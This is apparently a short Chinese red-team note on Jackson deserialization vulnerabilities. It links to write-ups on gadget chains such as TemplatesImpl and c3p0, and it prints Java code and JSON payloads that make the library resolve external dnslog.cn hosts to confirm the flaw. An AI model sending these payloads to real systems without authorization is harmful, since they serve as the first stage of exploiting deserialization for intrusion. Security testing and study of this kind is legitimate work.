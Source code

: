 # jackson

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/

https://www.i4k.xyz/article/caiqiiqi/105193411

https://github.com/cowtowncoder/jackson-compat-minor/

## 不出网利用
1.TemplatesImpl

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/#TemplatesImpl

2.c3p0

http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/

## 验证存在jackson漏洞

```java
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping();
/**
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
*/
String jsonResult = "[\"java.util.HashSet\",[[\"java.net.URL\",\"http://1wc3gw.dnslog.cn\"]]]";
objectMapper.readValue(jsonResult,Object.class);
```
其他exp
```java
["java.net.InetSocketAddress","nqigwr.dnslog.cn"]
["java.net.InetAddress","ap6d50.dnslog.cn"]
```
